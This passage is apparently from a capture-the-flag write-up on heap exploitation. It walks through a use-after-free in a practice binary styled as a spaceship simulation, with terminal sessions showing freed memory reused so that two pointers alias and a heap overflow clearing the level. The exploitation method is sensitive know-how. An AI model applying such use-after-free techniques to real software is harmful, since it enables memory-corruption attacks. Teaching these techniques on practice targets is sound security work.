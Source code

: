So we allocated memory to voyager and curiosity, saw that they had pointers assigned to them, then disallocated the memory they held. Howver the pointers remain. This is what is know as a stale pointer, which is a pointer that is pointuing to memory isn't allocated to it. Let's see if we can have both pointers point to the same address, since the memory freed by one should be reused by the other.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h3$ ./h3
Welcome to our spaceship simulation training program. What would you like to do?
refuel
Now refueling...
Welcome to our spaceship simulation training program. What would you like to do?
analyze
This planet's atmosphere is 0x804b818, and it's soil composition is (nil).
Welcome to our spaceship simulation training program. What would you like to do?
lessen
Removing waste from the spacecraft.
Welcome to our spaceship simulation training program. What would you like to do?
repair
Now initiating repairs...
Welcome to our spaceship simulation training program. What would you like to do?
analyze
This planet's atmosphere is 0x804b818, and it's soil composition is 0x804b818.
Welcome to our spaceship simulation training program. What would you like to do?
launch
And everything goes up in flames.
```

So we managed to get a stale pointer pointing to a place in the heap that is allocated to another spot. In addition to this we see that the launch command accepts this stale pointer. So what we can do is we can get voyager to be a stale pointer, pointing to the same meory allocated to curiosity. Then we use the heap overflow to change the value of curiosity->coordinates. Since voyager is pointing to the same space curiosity is, voyager->coordinates will be what curiosity->coordinates is. Let's try it.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h3$ ./h3
Welcome to our spaceship simulation training program. What would you like to do?
refuel
Now refueling...
Welcome to our spaceship simulation training program. What would you like to do?
lessen
Removing waste from the spacecraft.
Welcome to our spaceship simulation training program. What would you like to do?
repair
Now initiating repairs...
Welcome to our spaceship simulation training program. What would you like to do?
analyze
This planet's atmosphere is 0x804b818, and it's soil composition is 0x804b818.
Welcome to our spaceship simulation training program. What would you like to do?
comms
Establishing communications to mission control.
Hello Mission Control? This is Tom speaking. We are having an issue with all of the dolphins up here.
Welcome to our spaceship simulation training program. What would you like to do?
Welcome to our spaceship simulation training program. What would you like to do?
launch
We have lift off. Level Cleared
Welcome to our spaceship simulation training program. What would you like to do?
```  
